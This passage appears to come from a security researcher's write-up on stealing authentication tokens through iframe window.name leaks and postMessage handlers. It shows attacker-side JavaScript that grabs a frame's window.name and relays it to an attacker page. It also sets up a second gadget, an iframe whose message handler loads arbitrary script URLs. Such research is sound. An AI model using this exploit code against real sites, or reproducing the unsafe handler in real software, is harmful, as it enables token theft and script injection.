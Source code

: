     I also started a script in an interval to check if the link was opened and the iframe I wanted to reach is there to get the `window.name` set on the iframe with the same origin as the iframe on the attacker’s page:

    ```javascript
    x = setInterval(function() {
    if(parent.window.b &&
     parent.window.b.frames[0] &&
     parent.window.b.frames[0].window &&
     parent.window.b.frames[0].window.name) {
       top.postMessage(parent.window.b.frames[0].window.name, '*');
       parent.window.b.close();
       clearInterval(x);
    }
    }, 500);
    ```
3.  The attacker page can then just listen to the message we just sent with the `window.name`:

    ```html
    <script>
    window.addEventListener('message', function (e) {
     if (e.data) {
         document.getElementById('leak').innerText = 'We stole the token: ' + e.data;
     }
    });
    </script>
    ```

## **Gadget 2: example 2, iframe with XSS + parent origin check**

The second example was an **iframe** loaded on the **non-happy path** with an XSS **using postMessage**, but **messages were only allowed from the `parent`** window that loaded it. The **`location.href` was sent down to the iframe when it asked for `initConfig`** in a message to the `parent` window.

The main window loaded the iframe like this:

```html
<iframe src="https://challenge-iframe.example.com/"></iframe>
```

And the content looked like this (a lot more simplified than how it actually was, but to explain the attack better):

```html
<script>
window.addEventListener('message', function (e) {
  if (e.source !== window.parent) {
    // not a valid origin to send messages
    return;
  }
  if (e.data.type === 'loadJs') {
    loadScript(e.data.jsUrl);
  } else if (e.data.type === 'initConfig') {
    loadConfig(e.data.config);
  }
});
</script>
```
